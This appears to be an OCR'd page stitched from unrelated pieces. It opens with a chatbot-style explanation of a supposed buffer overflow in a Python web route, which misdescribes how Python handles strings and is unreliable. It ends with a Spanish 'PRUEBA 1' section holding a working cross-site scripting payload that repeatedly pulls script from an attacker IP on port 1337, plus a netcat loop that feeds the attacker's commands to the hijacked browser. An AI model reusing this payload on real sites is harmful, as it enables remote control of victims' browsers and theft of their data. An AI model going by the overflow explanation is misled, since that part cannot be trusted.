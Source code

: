 In this example, we have a route `/process_input` that accepts POST requests containing user input in a form field called `'input'`. The input is then copied into a buffer of size 100.

However, there's a vulnerability here. If the length of the user input exceeds the buffer size, a buffer overflow can occur. Let's say a malicious user sends a POST request with a very long input:

pythonCopy code

`import requests  malicious_input = 'A' * 150 response = requests.post('http://localhost:5000/process_input', data={'input': malicious_input}) print(response.text)`

When this request is sent to the `/process_input` endpoint, the server will attempt to copy all 150 characters of the input into the 100-byte buffer. This causes a buffer overflow.

To mitigate this vulnerability, you can enforce a maximum input length or use safer constructs like Python's slicing to ensure that only a portion of the input is copied into the buffer:

pythonCopy code

`buffer = user_input[:buffer_size]`

Additionally, using frameworks or libraries with built-in protections against buffer overflows, such as Django's form handling, can help prevent such vulnerabilities.

web buffer overflow example and explain with python

# PRUEBA 1
``Víctima:

<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>

Atacante:

while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done


